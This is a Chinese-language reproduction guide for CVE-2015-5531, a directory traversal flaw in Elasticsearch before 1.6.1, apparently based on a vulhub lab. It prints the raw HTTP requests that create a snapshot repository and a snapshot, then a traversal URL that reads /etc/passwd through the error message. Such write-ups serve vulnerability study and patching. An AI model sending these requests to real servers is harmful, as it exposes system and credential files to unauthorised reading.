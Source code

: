 ```yaml
---
title: "（CVE-2015-5531）ElasticSearch 目录穿越漏洞"
id: zhfly2906
---
```


# （CVE-2015-5531）ElasticSearch 目录穿越漏洞

## 一、漏洞简介

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 二、漏洞影响

ElasticSearch 1.6.1以下

## 三、复现过程

### 1\. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108 `{

“type”: “fs”,

“settings”: {

“location”: “/usr/share/elasticsearch/repo/test”

}

}` 
```

![image](../img/95df34339291e6f25d03ebfe3efc7869.png)

### 2\. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108 `{

“type”: “fs”,

“settings”: {

“location”: “/usr/share/elasticsearch/repo/test/snapshot-backdata”

}

}` 
```

![image](../img/b80cc7916c19b604274fde4677f51e3b.png)

### 3\. 目录穿越读取任意文件

访问 `http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![image](../img/898a2cefd609dd5be7b6f1145a22da58.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![image](../img/0a757ed1042357e88733768bc4b2cd22.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/